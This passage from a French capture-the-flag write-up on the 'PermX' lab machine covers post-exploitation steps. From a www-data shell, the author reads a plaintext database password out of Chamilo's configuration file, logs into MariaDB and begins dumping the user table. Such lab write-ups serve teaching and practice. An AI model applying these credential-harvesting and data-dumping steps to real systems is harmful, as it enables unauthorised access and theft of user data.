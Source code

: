 ```bash
LISTEN       0             128                           [::]:ssh
LISTEN       0             511                              *:http
(remote) www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload$
```

On voit donc qu'il y a une SGBD Mysql sur le port classique 3306.

On va donc chercher logiquement des creds dans l'infra.

J'ai réussi à chercher ou ce situe le fichier de configuration de chamilo.

Il suffit de l'afficher avec nano pour y voir les creds afficher dans le haut du fichier.

```bash
www-data@permx:/var/www/chamilo/app/config$ nano configuration.php
// Database connection settings.  
$_configuration['db_host'] = 'localhost';  
$_configuration['db_port'] = '3306';  
$_configuration['main_database'] = 'chamilo';  
$_configuration['db_user'] = 'chamilo';  
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

On peut désormais tenter de se connecter à la SGBD Mysql:

```bash
www-data@permx:/var/www/chamilo/app/config$ mysql -h localhost -P 3306 -u chamilo -p                    
Enter password:    
Welcome to the MariaDB monitor.  Commands end with ; or \g.  
Your MariaDB connection id is 88  
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04  
  
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.  
  
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.  
  
MariaDB [(none)]>
```

let's go on est connecté :D

ensuite il reste plus qu'à aller dump la table qui nous intéresse.

```sql
MariaDB [(none)]> \u chamilo  
Reading table information for completion of table and column names  
You can turn off this feature to get a quicker startup with -A  
  
Database changed
MariaDB [chamilo]> SHOW TABLES;  
+-------------------------------------+  
| Tables_in_chamilo                   |  
+-------------------------------------+  
| access_url                          |  
| access_url_rel_course               |  
| access_url_rel_course_category      |  
| access_url_rel_session              |  
| access_url_rel_user                 |
| [...]                               |
| user                                |
+-------------------------------------+
MariaDB [chamilo]> SELECT * FROM user \G;  
*************************** 1. row ***************************  
                  id: 1  
             user_id: 1  
            username: admin  
  username_canonical: admin  
```